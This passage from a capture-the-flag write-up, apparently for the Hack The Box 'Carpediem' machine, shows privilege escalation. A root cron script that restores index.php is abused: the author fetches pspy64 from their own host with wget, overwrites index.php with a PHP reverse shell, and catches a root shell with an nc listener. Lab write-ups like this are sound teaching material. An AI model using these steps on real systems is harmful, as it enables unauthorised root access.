 A script owned by root that we have execute privileges over:
```bash
www-data@90c7f522b842:/opt$ ls -al
total 12
drwxr-xr-x 1 root root 4096 Jun 23 09:50 .
drwxr-xr-x 1 root root 4096 Sep 14 01:10 ..
-rwxr-xr-x 1 root root  510 Jun 23 09:49 heartbeat.sh

www-data@90c7f522b842:/opt$ cat heartbeat.sh
#!/bin/bash
#Run a site availability check every 10 seconds via cron
checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
	exit
fi
status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
grep "Welcome to backdrop.carpediem.htb!" "$status"
if [[ "$?" != 0 ]]; then
	#something went wrong.  restoring from backup.
	cp /root/index.php /var/www/html/backdrop/index.php
fi
```

The comments in the scripts do a good job explaining what it does, every few seconds it will run the script to make sure that ``backdrop.carpediem.htb`` is alive and running. If something is wrong, it will copy a backup of `index.php` from `/root`, to restore the site. 

We can confirm if this script is executed by `root` or `www-data` using `pspy64`:
```bash
www-data@90c7f522b842:/dev/shm$ wget http://10.10.14.10/pspy64
www-data@90c7f522b842:/dev/shm$ chmod +x pspy64
www-data@90c7f522b842:/dev/shm$ cp pspy64 /tmp
www-data@90c7f522b842:/dev/shm$ /tmp/pspy64
[... snip ...]
2022/09/14 01:25:17 CMD: UID=0    PID=54872  | /bin/bash /opt/heartbeat.sh
```

It's ran as root. We should be able to get a revere shell as root then by simply replacing index.php with a reverse shell..
```bash
www-data@90c7f522b842:/dev/shm$ cp rev.php /var/www/html/backdrop/index.php

➜  carpediem nc -lvnp 4499                              
listening on [any] 4499 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 41614
Linux 90c7f522b842 5.4.0-97-generic #110-Ubuntu SMP Thu Jan 13 18:22:13 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 01:30:16 up 1 day, 23:13,  0 users,  load average: 0.03, 0.09, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: cant access tty; job control turned off

# id && hostname
uid=0(root) gid=0(root) groups=0(root)
90c7f522b842
```
